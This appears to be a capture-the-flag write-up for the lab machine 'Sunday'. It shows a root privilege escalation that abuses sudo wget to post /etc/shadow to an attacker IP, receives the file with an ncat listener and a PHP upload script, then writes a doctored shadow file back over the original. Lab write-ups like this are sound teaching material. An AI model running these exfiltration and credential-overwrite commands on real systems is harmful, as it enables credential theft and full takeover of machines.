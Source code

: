 # Alternative way to exploit Sunday

## Privilege Escalation to root

Instead of using `wget` and overwriting the _/root/troll_ file to escalate privileges to root, there is also another way.
We will create a script to exfiltrate files and then overwrite _/etc/shadow_.

Read _/etc/shadow_ with `wget` POST parameter:
```markdown
sudo wget --post-file=/etc/shadow 10.10.14.16
```

Listening on the request on our local client:
```markdown
ncat -lvnp 80
```

This displays the contents of the file on our local client.

Lets create the PHP script _upload.php_ which takes a filename as an argument:
```php
<?php
$fname = basename($\_REQUEST['filename']);
file_put_contents('upload/' . $fname, file_get_contents('php://input'));
?>
```

Start a local PHP server:
```markdown
php -S 10.10.14.16:8001 -t .
```

Now instead of just going to our local client, we will request the PHP script with an argument to the filename:
```markdown
sudo wget --post-file=/etc/shadow 10.10.14.16:8001/upload.php?filename=shadow
```

This downloads the _/etc/shadow_ file to our local client and we can modify it. I will replace the hash of root with the hash of _sammy_ because we know his password.

Uploading the modified _shadow_ file to the box:
```markdown
sudo wget 10.10.14.16:8001/shadow -O /etc/shadow
```

Now changing user to root works with the password of _sammy_ and we become root:
```markdown
su -
```
